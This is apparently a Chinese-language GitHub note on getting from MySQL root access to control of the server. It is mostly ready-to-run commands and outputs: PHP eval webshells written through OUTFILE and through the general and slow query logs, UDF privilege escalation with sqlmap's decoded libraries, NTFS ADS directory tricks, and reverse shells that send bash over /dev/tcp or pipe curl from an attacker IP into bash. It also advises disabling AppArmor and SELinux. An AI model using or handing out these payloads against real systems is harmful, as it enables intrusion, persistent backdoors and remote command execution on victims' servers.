








## 0x01 利用outfile函数写shell

**条件**

1.当前数据库用户为root权限

2.secure-file-priv为空（或包含web目录）

3.已知网站的绝对路径且具有写的权限

**利用步骤**

```mysql
select '<?php  @eval($_POST[1]);?>' into outfile '/var/WWW/shell.php';
#当然也可以insert到表后再select 表 into outfile到php文件
```

## 0x02 利用dumpfile函数进行udf提权

**条件**

1.root权限执行的Mysql

2.secure_file_priv为空（或包含udf目录）

3.udf目录具有写权限

**利用步骤**

从sqlmap或msf选择适合目标系统的udf脚本，保存解码并hex后的文件内容（解码步骤参考[小知识点](#如何获取该udf.dll(.so)文件的16进制值(hex)))）

```sql
mysql> show variables like '%plugin%'; #查看udf允许的目录
+-------------------------------+------------------------+
| Variable_name                 | Value                  |
+-------------------------------+------------------------+
| default_authentication_plugin | mysql_native_password  |
| plugin_dir                    | /usr/lib/mysql/plugin/ |
+-------------------------------+------------------------+
mysql> select unhex('udf.so hex code') into dumpfile '/usr/lib/mysql/plugin/shell.so'; #windows为dll，linux为so文件
Query OK, 1 row affected (0.01 sec)
mysql> create function sys_exec returns string soname 'shell.so'; #这里的so文件不能加绝对路径
Query OK, 0 rows affected (0.00 sec)
mysql> use mysql;
mysql> select * from func; #查看已创建的用户自定义函数
+----------+-----+------------+----------+
| name     | ret | dl         | type     |
+----------+-----+------------+----------+
| sys_exec |   0 | shell.so   | function |
+----------+-----+------------+----------+
mysql> select sys_exec('whoami'); #返回NULL说明执行成功了，这里使用的sqlmap自带的udf脚本是不带回显的
+--------------------+
| sys_exec('whoami') |
+--------------------+
| NULL               |
+--------------------+
```

当lib/plugin目录不存在时可以使用NTFS ADS流创建lib、plugin文件夹

```mysql
select @@basedir;   //查找mysql的目录
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION';    //使用NTFS ADS流创建lib目录
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION'; //利用NTFS ADS再次创建plugin目录
执行成功以后再进行导出即可。
```

**udf实验过程遇到的坑点**

1. 受到secure_file_priv的目录限制，该默认目录与udf插件的目录不一样，导致dumpfile失败

   

   通过修改/etc/mysql/mysql.conf.d/mysqld.cnf文件secure_file_priv为空

2. 没有写的权限

   

   unbutu通过`service apparmor teardown`关闭apparmor安全模式，并设置/usr/lib/mysql/plugin权限为777

   

若是centos ，修改`/etc/sysconfig/selinux`文件`SELINUX=disabled`来禁用安全模式

3.将绝对路径导致so文件找不到，去掉路径即可



## 0x03 开启全局日志写入shell

前两个利用方法都受到secure_file_priv的限制，我们可以通过全局日志或慢查询日志写shell绕过该限制

**条件**

1.root权限执行的Mysql

2.网站的绝对路径且具有写入权限

**利用步骤**

```sql
show variables like '%general%';
set global general_log = on; #开启全局配置
set global general_log_file = '/var/WWW/shell.php'; #将日志文件设置成服务器下的木马文件
select '<?php  @eval($_POST[1]);?>'; #执行sql语句，mysql会将我没执行的语句记录到日志文件(上一步修改后的文件)中
```

## 0x04 开启慢查询日志写入shell

**条件**

1.root权限执行的Mysql

2.网站的绝对路径且具有写入权限

**利用步骤**

```mysql
show variables like '%slow_query_log%'; #查看慢查询日志开启情况
set global slow_query_log=1; #开启慢查询日志
set global slow_query_log_file='/var/WWW/shell.php'; #修改日志文件存储的绝对路径
select '<?php @eval($_POST[1]);?>' or sleep(11); #向日志文件中写入shell
```

## 0x05 利用system函数反弹shell

mysql在5.7版本之后自带有个system函数，可以直接执行命令



**条件**

1.mysql版本大于5.7

**利用步骤**

```mysql
#base64编码后反弹
system bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMi4xNDIvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}';
#利用curl访问攻击者web服务器，shell.html内容为bash -i >& /dev/tcp/ip/port 0>&1
system curl 192.168.112.142/shell.html|bash;
......
```

## 0x06 小知识点

### **secure_file_priv在不同mysql版本的区别**

mysql5.5之前secure_file_priv默认是空，这个情况可以让任何绝对路径写文件，

mysql5.5-5.7，secure_file_priv默认是NULL，限制mysqld 不允许导入 | 导出，



mysql版本5.7之后，secure_file_priv是默认目录,限制mysqld 的导入 | 导出 只能发生在限定目录下。



### **如何获取该udf.dll(.so)文件的16进制值(hex)**

我们可以本地搭建mysql环境 找个可以用的udf.dll文件 执行下面操作

```sql
mysql> select hex(load_file ('c:/windows/temp/xxoo.dll')) into outfile 'c:/windows/temp/xxoo.txt';
```

或者使用xxd命令

```shell
cat udf.so|xxd -ps
```

### **sqlmap的udf.dll(.so)是通过异或编码的，使用之前需要解码**

```powershell
#解码工具为sqlmap自带的SQLmap\extra\cloak\cloak.py
python cloak.py -d -i G:\tools\SQLmap\udf\mysql\windows\64\lib_mysqludf_sys.dll_
python cloak.py -d -i G:\tools\SQLmap\udf\mysql\linux\64\lib_mysqludf_sys.so_
```



### **dumpfile和outfile有什么不一样**

outfile适合导库，会在行末尾会写入新行并转义，因此不能写入二进制可执行文件。

into dumpfile 就能导出 一个完整能执行的2进制文件。

## 参考

[udf提权](https://www.cnblogs.com/sijidou/p/10522972.html)

[写入mysql_通过MySQL写入webshell的几种方式](https://blog.csdn.net/weixin_39872872/article/details/112589789)

[mysql dumpfile与outfile函数的区别](https://www.cnblogs.com/milantgh/p/5444398.html)

